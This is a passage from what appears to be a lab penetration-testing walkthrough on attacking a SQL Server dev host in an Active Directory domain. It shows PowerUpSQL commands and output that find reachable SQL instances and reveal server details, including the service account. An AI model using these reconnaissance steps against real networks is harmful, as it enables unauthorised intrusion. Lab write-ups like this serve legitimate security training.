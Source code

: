 # target 3: `Devsrv.Nebula.Cosmos.Local` - sql server exploitation

this is a dev server that hosts critical database services. dev servers are used by engineers to build + test apps before moving them to production.

these environments usually contain valuable intellectual property (code) and have direct connections to production systems. let's look for more information the SQL Server setup. you can do this with `PowerUpSQL.ps1`.

```powershell
PS C:\ad\tools\PowerUpSQL-master\PowerUpSQL-master> Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

VERBOSE: Creating runspace pool and session states

VERBOSE: devsrv.nebula.cosmos.local,1433 : Connection Success.

VERBOSE: USER : Connection Failed.

VERBOSE: Closing the runspace pool

  

ComputerName                    Instance                         Status

------------                    --------                         ------

devsrv.nebula.cosmos.local      devsrv.nebula.cosmos.local,1433  Accessible

USER                             USER                            Not Accessible
```

```powershell
PS C:\ad\tools\PowerUpSQL-master\PowerUpSQL-master> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

VERBOSE: devsrv.nebula.cosmos.local,1433 : Connection Success.

  

ComputerName : devsrv.nebula.cosmos.local

Instance : DEVSRV

DomainName : GARRISON

ServiceProcessID : 2576

ServiceName : MSSQLSERVER

ServiceAccount : GARRISON\devsqladmin

AuthenticationMode : Windows and SQL Server Authentication

ForcedEncryption : 0

Clustered : No

SQLServerVersionNumber : 14.0.1000.169

SQLServerMajorVersion : 2017

SQLServerEdition : Developer Edition (64-bit)
```